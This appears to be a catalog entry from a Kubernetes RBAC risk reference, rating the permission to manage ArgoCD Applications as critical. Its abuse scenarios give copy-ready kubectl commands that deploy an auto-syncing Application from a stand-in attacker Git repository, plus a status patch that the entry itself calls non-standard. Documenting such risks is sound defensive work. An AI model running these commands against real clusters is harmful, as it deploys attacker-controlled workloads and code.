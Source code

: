 ```yaml
---
id: 1063
title: "Manage ArgoCD Applications (argoproj.io)"
description: "Grants permission to manage ArgoCD Application resources. This allows deploying, modifying, or deleting applications managed by ArgoCD, potentially leading to the deployment of malicious workloads, unauthorized code execution, tampering with production systems, and privilege escalation if ArgoCD has high privileges."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                           |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1063                                                                                                                            |
| Name          | Manage ArgoCD Applications (argoproj.io)                                                                                        |
| Risk Category | Tampering                                                                                                                       |
| Risk Level    | {{< risk Critical >}}                                                                                                           |
| Role Type     | Role                                                                                                                            |
| API Groups    | argoproj.io                                                                                                                     |
| Resources     | applications                                                                                                                    |
| Verbs         | create, update, patch, delete, sync                                                                                             |
| Tags          | {{< tag "CodeExecution" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadDeployment" >}} |

## Description

Grants permission to manage ArgoCD Application resources. This allows deploying, modifying, or deleting applications managed by ArgoCD, potentially leading to the deployment of malicious workloads, unauthorized code execution, tampering with production systems, and privilege escalation if ArgoCD has high privileges.

## Abuse Scenarios

1. Create a new ArgoCD Application pointing to a malicious Git repository.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: malicious-app
spec:
  destination:
    namespace: <target-namespace>
    server: https://kubernetes.default.svc
  project: default
  source:
    repoURL: https://github.com/attacker/malicious-manifests.git
    targetRevision: HEAD
    path: .
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
EOF
# Example: kubectl create -n argocd -f - <<EOF ... EOF

```

2. Force synchronization of an ArgoCD Application to deploy changes immediately.

```bash {copy=true}
kubectl patch application <application-name> -n <namespace> --type='merge' -p='{"status": {"operationState": {"phase": "Running", "syncResult": {"resources": []}}}}'
# Note: Direct 'sync' verb via kubectl is not standard. This patch might trigger a sync.
# A more direct way is using the ArgoCD CLI: `argocd app sync <application-name> -n <namespace>`
# Example: kubectl patch application my-app -n argocd --type='merge' -p='{"status": {"operationState": {"phase": "Running", "syncResult": {"resources": []}}}}'

```
